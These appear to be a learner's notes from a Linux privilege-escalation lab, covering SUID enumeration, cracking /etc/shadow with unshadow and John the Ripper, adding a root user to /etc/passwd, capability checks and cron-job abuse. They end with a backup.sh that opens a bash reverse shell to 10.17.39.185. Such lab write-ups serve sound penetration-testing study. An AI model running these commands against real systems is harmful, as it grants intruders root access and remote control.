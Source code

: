 ```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
will list files that have SUID or SGID bits set.

A good practice would be to compare executables on this list with GTFOBins (https://gtfobins.github.io).


John the Ripper: unshadow tool
To achieve this, unshadow needs both the /etc/shadow and /etc/passwd files.
```bash
unshadow passwd.txt shadow.txt > passwords.txt
```

The other option would be to add a new user that has root privileges. This would help us circumvent the tedious process of password cracking. Below is an easy way to do it:

We will need the hash value of the password we want the new user to have. This can be done quickly using the openssl tool on Kali Linux.

```bash
openssl passwd -1 -salt THM password1
```
We will then add this password with a username to the /etc/passwd file.

----------------------------------------------------------------

**Privilege Escalation: Capabilities**

Another method system administrators can use to increase the privilege level of a process or binary is “Capabilities”. Capabilities help manage privileges at a more granular level.

We can use the 
```bash
getcap -r / 2>/dev/null 
```
tool to list enabled capabilities.

When run as an unprivileged user, getcap -r / will generate a huge amount of errors, so it is good practice to redirect the error messages to /dev/null.

----------------------------------------------------------------

**Privilege Escalation: Cron Jobs**

```bash
cat /etc/crontab
```

We should always prefer to start reverse shells, as we not want to compromise the system integrity during a real penetration testing engagement.

```bash
cat backup.sh

#!/bin/bash

bash -i >& /dev/tcp/10.17.39.185/6666 0>&1

```
-----------------------------------------------------------------
